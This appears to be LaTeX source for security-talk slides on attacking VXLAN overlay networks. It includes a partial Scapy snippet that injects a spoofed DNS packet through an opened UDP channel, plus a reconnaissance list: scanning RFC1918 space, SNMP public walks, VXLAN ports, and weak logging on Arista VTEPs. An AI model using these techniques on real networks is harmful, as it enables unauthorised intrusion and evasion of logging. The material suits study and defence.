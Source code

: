 \documentclass[Screen16to9,17pt,footrule]{foils}
\begin{document}

Send/receive UDP probe, do another request through the open channel
\begin{verbatim}
...
print "After fork and things"
#print data.summary()
data[0].show()

# Dissecting the packet
ip=data[0].getlayer(IP)
udp=data[0].getlayer(UDP)

# Try sending request back through - now open - channel
# Dont forget to reverse the src/dst and ports
packet=Ether(dst=routermac)/IP(src=attacker,dst=ip.src)/
    UDP(sport=udp.dport,dport=udp.sport)/DNS(rd=1,qd=DNSQR(qname="localhost"))
sendp(packet,loop=0)
...
\end{verbatim}

Maybe abuse complex protocols such as FTP, SIP etc. to open arbitrary ports?


What I need to do these attacks are:
\begin{list2}
\item Injection end points, IPs of the two routers
\item VLAN IDs and VNIs - VXLAN Network Identifier (VNI)
\item IP addresses, internal subnets
\item MAC addresses - depending on attack
\end{list2}


\begin{list2}
\item MAC addresses, some attacks use broadcast, try default VRRP?
\item VLAN IDs and VNIs - usually 1:1 mapping
\item IP addresses, internal subnets, qualified guesses as to default gateways etc.
\item Injection end points, IPs of the two routers, or one -
port likely be 4789/8472
\item Most of these are not typically considered highly confidential
\item SMTP, HTTP setups often reveal real IP of the server behind etc.
\item Also it is easily possible to produce millions of packets so send/scanning/trying
\item Doing a complete scan of RFC1918 space is certainly possible for some protocols/ports
\item Devices with SNMP public? Doing snmpwalk would get a lot of the above
\item Besides I dont think the hardware VTEP on Arista logs much, if anything
\end{list2}
\end{document}
